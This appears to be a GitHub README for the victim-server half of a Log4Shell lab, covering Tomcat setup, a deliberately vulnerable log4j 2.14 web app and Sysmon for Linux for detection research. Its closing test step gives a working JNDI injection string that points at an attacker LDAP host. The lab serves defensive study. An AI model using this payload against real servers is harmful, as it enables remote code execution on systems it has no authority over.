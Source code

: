 # Victim Server

There are several lab environments being shared in the Infosec community that are helping security researchers to test and learn more about `Log4Shell`.
However, most of them use docker containers to not only deploy a vulnerable application, but also containerize the execution of code.
From a Linux perspective, this does not help to use tools such as Sysmon for Linux since it cannot be installed in containers yet.
I wanted to put together a basic lab where I can replicate a basic real scenario with a vulnerable Web application and Sysmon for Linux running. 
## Basic Setup

* [Tomcat v8.5.3](https://tomcat.apache.org/)
* Vulnerable Java Application:
    * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
    * [log4j-core v2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0)
    * [log4j-api v2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0)
* Sysmon for Linux

## Set up Tomcat Server

SSH to your Linux VM and git clone this projet:

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
run the bash script `Install-Tomcat.sh` in this folder to set up [Tomcat](https://tomcat.apache.org/) server:

```Bash
cd log4jshell-lab/victim-server/

sh Install-Tomcat.sh
```

Check if `Tomcat` service was installed property.

```
service tomcat status
```

## Install Sysmon for Linux

Download the following Sysmon for Linux bash script to automate the installation and configuration:

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh
chmod +x Install-Sysmon-For-Linux.sh

sh Install-Sysmon-For-Linux.sh --config https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/configs/sysmon/linux/sysmon.xml
```

## Install Docker

We are going to use a Docker image to compile our vulnerable application. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

## Compile Vulnerable Application

We want to create a `.war` file to host the vulnerable aplication in our Tomcat server.

```bash
cd httpLoginForm/
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

Copy `.war` file from the `target` folder to the Tomcat `/opt/tomcat/webapps/` folder.

```bash
cp target/VulnWebApp-1.0-SNAPSHOT.war /opt/tomcat/webapps/
```

## Finish Setup

### Restart Tomcat Service

```Bash
service tomcat stop
service tomcat start
```

### Access Vulnerable Web App

* You can simply browse to `http://localhost:8080/VulnWebApp-1.0-SNAPSHOT/` if your Linux VM has a GUI.
* If you can only use the terminal with your Linux VM, you can SSH tunnel your access to your vulnerable application:

```bash
ssh -L 8080:127.0.0.1:8080 wardog@1.2.3.4
```

![](../resources/images/log4jshell-lab-vuln-webapp.png)

## Basic Test

If you have your `attacker` server up and running, simply craft your `JNDI Lookup` string and use it in the `password` field for the application login form hosted by your vulnerable application.

**Example:** `${jndi:ldap://192.168.2.6:1389/Run}`

## Reference
* https://linuxize.com/post/how-to-install-tomcat-8-5-on-ubuntu-18-04/
* https://www.digitalocean.com/community/tutorials/install-tomcat-9-ubuntu-1804